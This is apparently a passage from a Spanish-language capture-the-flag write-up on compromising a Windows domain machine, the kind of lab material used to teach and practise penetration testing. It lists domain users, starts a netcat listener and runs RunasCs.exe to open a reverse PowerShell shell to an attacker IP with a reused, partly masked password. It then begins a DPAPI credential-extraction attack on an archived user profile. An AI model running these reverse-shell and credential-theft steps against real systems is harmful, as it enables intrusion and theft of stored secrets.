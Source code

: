 ```powershell
net user /domain
User accounts for \\DC

-------------------------------------------------------------------------------
Administrator            krbtgt                   svc_ldap                 
todd.wolfe               
The command completed successfully.

```
hemos restaurado el usuario `todd.wolfe` asi que testeamos la credencial que conseguimos antes y para esto vamos a lanzar una nueva shell con `RunasCs.exe`

```bash
nc -lnvp 9998 # en nuestra maquina atacante
```

```powershell
./RunasCs.exe 'todd.wolfe' Ni*******14 powershell -r 10.10.14.152:9998
```

Obtenemos acceso como `todd.wolfe`

<img width="1917" height="487" alt="image" src="https://github.com/user-attachments/assets/1371586a-04e6-4686-bb50-82b599d948f2" />

revisando los grupos a los cuales pertenece este usuario

```powershell
whoami /groups
```

<img width="1917" height="398" alt="image" src="https://github.com/user-attachments/assets/a7d7b75a-23e5-4aa3-a411-f8d02f229bbb" />

vemos que pertenece al grupo `Second-Line Technicians` y si nos vamos hasta el directorio de los recursos compartidos `C:\IT` observamos 3 directorios y uno relacionado con el nombre del grupo al que pertenece el usuario

<img width="1917" height="398" alt="image" src="https://github.com/user-attachments/assets/6acb87e2-be6e-45c9-89eb-62929cf80a0f" />

aparentemente llegamos hasta el mismo directorio del usuario `todd.wolfe`, pero si intentamos un ataque `DPAPI` (el cual ya lo habia intentado antes pero no me funciono) ahora si tenemos resultados

## DPAPI

Nos vamos hasta el directorio: 

>>> C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110 

conseguimos la `masterkey`, ahora vamos a ver si conseguimos archivos para desencriptar en otros directorios

<img width="1917" height="398" alt="image" src="https://github.com/user-attachments/assets/b655b4c7-dd6e-4d69-b844-5929b00698f7" />

intente desencriptar este archivo pero no pude asi que continuamos y llegamos hasta:

>>> C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials
